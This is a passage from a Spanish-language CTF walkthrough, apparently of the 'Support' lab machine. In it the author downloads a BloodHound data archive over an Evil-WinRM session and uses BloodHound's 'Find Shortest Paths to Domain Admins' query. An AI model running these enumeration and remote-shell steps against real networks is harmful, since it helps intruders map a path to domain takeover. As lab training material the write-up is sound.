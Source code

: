 Nos `descargamos` el `comprimido` creado

```
*Evil-WinRM* PS C:\Users\support\Documents> download 20240816185837_BloodHound.zip
                                        
Info: Downloading C:\Users\support\Documents\20240816185837_BloodHound.zip to 20240816185837_BloodHound.zip
                                        
Info: Download successful!
```

Nos vamos al `bloodhound` y pulsamos en `Upload data`

![](/assets/img/Support/image_13.png)

Seleccionamos `Find Shortest Paths to Domain Admins`

![](/assets/img/Support/image_14.png)
